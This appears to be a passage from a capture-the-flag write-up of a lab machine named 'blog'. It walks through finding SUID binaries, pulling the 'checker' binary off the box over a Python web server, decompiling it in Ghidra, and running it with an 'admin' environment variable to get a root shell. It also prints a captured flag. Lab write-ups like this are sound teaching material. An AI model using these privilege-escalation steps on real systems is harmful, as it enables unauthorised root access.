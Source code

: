 Now I need to escalate privilege to get more permission in order to locate and access all the directories to find out the real `user.txt` file:

```tsx
find / -perm -04000 2>/dev/null

www-data@blog:/home/bjoel$ ls -l /usr/sbin/checker
ls -l /usr/sbin/checker
-rwsr-sr-x 1 root root 8432 May 26  2020 /usr/sbin/checker
```

I found the binary `checker`, let’s try to run it to see what’d happen:

```tsx
www-data@blog:/home/bjoel$ /usr/sbin/checker
/usr/sbin/checker
Not an Admin
```

It’s said ************Not an Admin************. For further analyzing, I transfer it to my local machine:

```tsx
www-data@blog:/home/bjoel$ cd /usr/sbin
cd /usr/sbin
www-data@blog:/usr/sbin$ python3 -m http.server 8000
python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.9.63.75 - - [20/Aug/2023 22:37:37] "GET /checker HTTP/1.1" 200 -
```

Using `ghidra` to analyze the binary → Access the `main` function:

```c
undefined8 main(void)

{
  char *pcVar1;
  
  pcVar1 = getenv("admin");
  if (pcVar1 == (char *)0x0) {
    puts("Not an Admin");
  }
  else {
    setuid(0);
    system("/bin/bash");
  }
  return 0;
}
```

The script calls to `getenv` to check whether the `admin` variable is declared or not. If it is declared then it would set the `uid` to `0` which is `root`'s **uid** and execute the `/bin/bash` → Become **root** user:

```tsx
www-data@blog:/var/www/wordpress$ admin=1 /usr/sbin/checker
admin=1 /usr/sbin/checker
root@blog:/var/www/wordpress# id
id
uid=0(root) gid=33(www-data) groups=33(www-data)
root@blog:/var/www/wordpress# find / -name "user.txt" 2>/dev/null
find / -name "user.txt" 2>/dev/null
/home/bjoel/user.txt
/media/usb/user.txt
root@blog:/var/www/wordpress# cat /media/usb/user.txt
cat /media/usb/user.txt
c8421899aae571f7af486492b71a8ab7
root@blog:/var/www/wordpress# cat /root/root.txt
```